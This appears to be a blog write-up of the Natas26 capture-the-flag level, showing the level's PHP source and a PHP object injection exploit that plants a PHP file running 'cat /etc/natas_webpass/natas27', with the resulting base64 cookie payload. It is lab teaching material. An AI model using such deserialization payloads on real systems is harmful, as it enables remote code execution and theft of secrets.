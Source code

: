 ```yaml
---
layout: post
title:  "Natas26: PHP Object Injection"
date:   2018-02-13 00:00:00 -0400
categories: master
---
```



The source code:

```
<?php
    // sry, this is ugly as hell.
    // cheers kaliman ;)
    // - morla
    
    class Logger{
        private $logFile;
        private $initMsg;
        private $exitMsg;
      
        function __construct($file){
            // initialise variables
            $this->initMsg="#--session started--#\n";
            $this->exitMsg="#--session end--#\n";
            $this->logFile = "/tmp/natas26_" . $file . ".log";
      
            // write initial message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$initMsg);
            fclose($fd);
        }                       
      
        function log($msg){
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$msg."\n");
            fclose($fd);
        }                       
      
        function __destruct(){
            // write exit message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->exitMsg);
            fclose($fd);
        }                       
    }
 
    function showImage($filename){
        if(file_exists($filename))
            echo "<img src=\"$filename\">";
    }

    function drawImage($filename){
        $img=imagecreatetruecolor(400,300);
        drawFromUserdata($img);
        imagepng($img,$filename);     
        imagedestroy($img);
    }
    
    function drawFromUserdata($img){
        if( array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
            array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET)){
        
            $color=imagecolorallocate($img,0xff,0x12,0x1c);
            imageline($img,$_GET["x1"], $_GET["y1"], 
                            $_GET["x2"], $_GET["y2"], $color);
        }
        
        if (array_key_exists("drawing", $_COOKIE)){
            $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
            if($drawing)
                foreach($drawing as $object)
                    if( array_key_exists("x1", $object) && 
                        array_key_exists("y1", $object) &&
                        array_key_exists("x2", $object) && 
                        array_key_exists("y2", $object)){
                    
                        $color=imagecolorallocate($img,0xff,0x12,0x1c);
                        imageline($img,$object["x1"],$object["y1"],
                                $object["x2"] ,$object["y2"] ,$color);
            
                    }
        }    
    }
    
    function storeData(){
        $new_object=array();

        if(array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
            array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET)){
            $new_object["x1"]=$_GET["x1"];
            $new_object["y1"]=$_GET["y1"];
            $new_object["x2"]=$_GET["x2"];
            $new_object["y2"]=$_GET["y2"];
        }
        
        if (array_key_exists("drawing", $_COOKIE)){
            $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
        }
        else{
            // create new array
            $drawing=array();
        }
        
        $drawing[]=$new_object;
        setcookie("drawing",base64_encode(serialize($drawing)));
    }
?>

<h1>natas26</h1>
<div id="content">

Draw a line:<br>
<form name="input" method="get">
X1<input type="text" name="x1" size=2>
Y1<input type="text" name="y1" size=2>
X2<input type="text" name="x2" size=2>
Y2<input type="text" name="y2" size=2>
<input type="submit" value="DRAW!">
</form> 

<?php
    session_start();

    if (array_key_exists("drawing", $_COOKIE) ||
        (   array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
            array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET))){  
        $imgfile="img/natas26_" . session_id() .".png"; 
        drawImage($imgfile); 
        showImage($imgfile);
        storeData();
    }
    
?>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

This level is a classic example of a [PHP Object 
Injection](https://www.owasp.org/index.php/PHP_Object_Injection 
"OWASP PHP Oject Injection") that uses unsanitized input to the 
`unserialize()` PHP function to create an object with user-supplied strings. This type of 
exploit requires a class that implements magic methods. For this level, we'll be exploiting 
the `__destruct()` in the `Logger` class.

On the surface, this level accepts four input variables from the user, and the uses those 4 
inputs to generate a graph. The code then stores that data in the `drawing` cookie.

```   
if (array_key_exists("drawing", $_COOKIE)){
	$drawing=unserialize(base64_decode($_COOKIE["drawing"]));
} 
```

Since cookies are editable, we can use this to create a `Logger` object with a custom 
`exitMsg` variable to execute PHP code to read the natas27 password file. We also edit the 
`logFile` variable to point to a location that we can access via the web browser.

The following code will create a clone of the Logger class with the modified variables, then 
serialize it, encode with base64, and finally urlencode to pass off to a cookie editor.

```
<?php

class Logger
{
        private $logFile;
        private $initMsg;
        private $exitMsg;

        function __construct($file){
                $this->exitMsg= "<?php echo exec('cat /etc/natas_webpass/natas27')?>";
                $this->logFile = "img/" . $file . ".php";
        }
}
print urlencode(base64_encode(serialize(new Logger("2"))));
?>
```

Running this code will produce the following output:
```
root@kali:~# php temp.php
Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czo5OiJ
pbWcvMi5waHAiO3M6MTU6IgBMb2dnZXIAaW5pdE1zZyI7TjtzOjE1OiIATG
9nZ2VyAGV4aXRNc2ciO3M6NTE6Ijw%2FcGhwIGVjaG8gZXhlYygnY2F0IC9
ldGMvbmF0YXNfd2VicGFzcy9uYXRhczI3Jyk%2FPiI7fQ%3D%3D
```

Editing our `drawing` cookie with the above base64 string will produce a file in `img/2.log` 
with the natas27 password, not shown here for spoilers.



